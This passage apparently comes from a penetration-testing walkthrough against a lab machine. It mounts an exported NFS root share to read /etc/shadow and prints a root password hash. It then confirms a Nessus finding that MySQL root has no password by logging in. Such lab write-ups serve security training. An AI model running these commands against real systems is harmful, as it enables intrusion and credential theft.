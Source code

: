 How nice! The root directory is shared. So, let's mount it then:

``` plain
mkdir /metafs # this will be the mount point

mount -t nfs 192.168.127.154:/ /metafs -o nolock # mount the remote shared directory as nfs and disable file locking
```

Now we can read  the passwords and everything else:

``` plain
cat /metafs/etc/shadow

root:$1$/avpfBJ1$x0z8w5UF9Iv./DR9E9Lid.:14747:0:99999:7:::

..........etc..........
```


### Port 3306 mysql

The Nessus scan that I ran against the target revealed the following:

 
**MySQL Unpassworded Account Check**

**Synopsis**

The remote database server can be accessed without a password.

**Description**

It is possible to connect to the remote MySQL database server using an unpassworded account. This may allow an
attacker to launch further attacks against the database.

The 'root' account does not have a password.
Here is the list of databases on the remote server :
- information_schema
- dvwa
- metasploit
- mysql
- owasp10
- tikiwiki
- tikiwiki195


Let's see if we can indeed connect to the database as root without a password:

``` plain
mysql -u root -p -h 192.168.127.154
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 7
Server version: 5.0.51a-3ubuntu5 (Ubuntu)

Copyright (c) 2000, 2014, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> 
```
